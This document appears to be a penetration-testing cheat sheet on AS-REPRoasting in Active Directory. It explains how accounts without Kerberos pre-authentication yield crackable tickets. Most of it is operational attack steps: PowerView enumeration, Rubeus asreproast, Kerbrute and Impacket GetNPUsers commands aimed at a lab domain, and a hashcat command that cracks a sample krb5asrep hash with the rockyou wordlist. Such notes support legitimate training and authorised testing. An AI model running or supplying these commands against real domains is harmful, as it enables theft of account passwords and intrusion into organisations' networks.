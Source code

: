 # AS-REPRoasting

## Overview

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.

With pre-authentication, a user enters their password, which encrypts a time stamp. The Domain Controller will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.

AS-REPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. This setting can be enumerated with PowerView or built-in tools such as the PowerShell AD module.

The attack itself can be performed with the Rubeus toolkit and other tools to obtain the ticket for the target account. If an attacker has GenericWrite or GenericAll permissions over an account, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again. Like Kerberoasting, the success of this attack depends on the account having a relatively weak password.

## Attack Requirements

- Username of an account with the Do not require Kerberos pre-authentication setting

## Attack Results

An encrypted TGT. We can attempt to crack it offline

## Attack Execution

### Searching for Users with Do not require Kerberos pre-authentication setting

Check if users in the domain that have the pre authentication not required:

    Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

### With Rubeus

```
.\Rubeus.exe asreproast /user:<domain_username> /nowrap /format:hashcat
```

### With Kerbrute

When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.

    kerbrute userenum -d <domain_name> --dc <domain_controller_ip> <domain_usernames_list>.txt
    kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt

### With Impacket

```
impacket-GetNPUsers <domain_name>/ -dc-ip <domain_controller_ip> -no-pass -usersfile <domain_usernames_list>.txt
```

### Cracking the Hash

We can the crack the hash with hashcat:

    hashcat -m 18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
